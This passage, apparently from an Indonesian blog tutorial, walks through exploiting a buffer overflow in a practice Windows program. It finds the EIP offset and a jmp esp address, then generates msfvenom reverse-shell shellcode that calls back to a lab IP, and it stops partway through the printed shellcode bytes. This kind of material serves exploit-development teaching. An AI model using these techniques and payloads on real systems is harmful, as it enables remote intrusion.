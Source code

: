 Jalankan script dan cek debugger

![EIP]({{ site.baseurl }}/images/posts/2018/p1_3.png "EIP terisi dengan pattern"){:width="600"}

Menggunakan mona, kita bisa men-track dan menemukan offset yang meng-overwrite EIP `!mona findmsp`

![mona]({{ site.baseurl }}/images/posts/2018/p1_4.png "!mona findmsp"){:width="600"}

Offset EIP berada setelah 1012 byte junk. Kita bisa menyusun payload menjadi `evil = "A"*1012 +  "BBBB"` dimana `BBBB` adalah `alamat dari sesuatu`.

Pertanyaannya adalah alamat apa yang harus kita letakkan untuk mengganti karakter BBBB? kita bisa meletakkan alamat dimana terdapat instruksi untuk lompat ke register ESP (stack pointer) karena telah kita ketahui bahwa kita dapat menulis apapuhn di dalam stack melalui celah buffer overflow. Nantinya kita akan meletakkan opcode (operation code) agar program mengeksekusinya. Gunakan mona untuk menemukan alamat tersebut, kode assembly untuk lompat ke esp adalah `jmp esp`.

Ketik `!mona jmp -r esp` pada konsol debugger.

![mona jmp]({{ site.baseurl }}/images/posts/2018/p1_5.png "!mona jmp -r esp"){:width="600"}

Kita menemukan sebuah alamat berisikan opcode yang kita inginkan. Alamat tersebut berada pada `0x133712f0` (lihat gambar). Ingat bahwa Intel x86 Assembly itu sistem berbasis little endian sehingga agar saat masuk kedalam memori alamat tidak terbalik, pada script kita harus membaliknya menjadi `\xf0\x12\x37\x13`. Dan terimakasih untuk pwntools yang telah menyediakan fungsi untuk meng-handle masalah tersebut, `p32()`.

payload kita sekarang menjadi `evil = "A"*1012 + p32(0x133712f0) + SHELLCODE`

### Shellcode

Dengan menggunakan metasploit kita generate shellcode-nya. Shellcode ridak boleh berisikan `badchar` (bad charachter). Badchar adalah karakter yang nantinya akan menghentikan program dalam mengeksekusi shellcode kita. Contoh pada program dvca_bof.exe, NULL atau `\x00` adalah badchar-nya.

Menyusun shellcode menggunakan msfvenom:

```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.1 
LPORT=9876 -b '\x00' -e x86/shikata_ga_nai -f python
Found a database at /Users/fokt/.msf4/db, 
checking to see if it is started
Starting database at /Users/fokt/.msf4/db...success
[-] No platform was selected, 
choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: 
x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations 
of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1684 bytes
buf =  ""
buf += "\xb8\x46\x74\x2a\x7f\xd9\xd0\xd9\x74\x24\xf4\x5e\x33"
buf += "\xc9\xb1\x52\x31\x46\x12\x03\x46\x12\x83\x80\x70\xc8"
buf += "\x8a\xf0\x91\x8e\x75\x08\x62\xef\xfc\xed\x53\x2f\x9a"
buf += "\x66\xc3\x9f\xe8\x2a\xe8\x54\xbc\xde\x7b\x18\x69\xd1"
buf += "\xcc\x97\x4f\xdc\xcd\x84\xac\x7f\x4e\xd7\xe0\x5f\x6f"
buf += "\x18\xf5\x9e\xa8\x45\xf4\xf2\x61\x01\xab\xe2\x06\x5f"
buf += "\x70\x89\x55\x71\xf0\x6e\x2d\x70\xd1\x21\x25\x2b\xf1"
buf += "\xc0\xea\x47\xb8\xda\xef\x62\x72\x51\xdb\x19\x85\xb3"
buf += "\x15\xe1\x2a\xfa\x99\x10\x32\x3b\x1d\xcb\x41\x35\x5d"
buf += "\x76\x52\x82\x1f\xac\xd7\x10\x87\x27\x4f\xfc\x39\xeb"
buf += "\x16\x77\x35\x40\x5c\xdf\x5a\x57\xb1\x54\x66\xdc\x34"
buf += "\xba\xee\xa6\x12\x1e\xaa\x7d\x3a\x07\x16\xd3\x43\x57"
```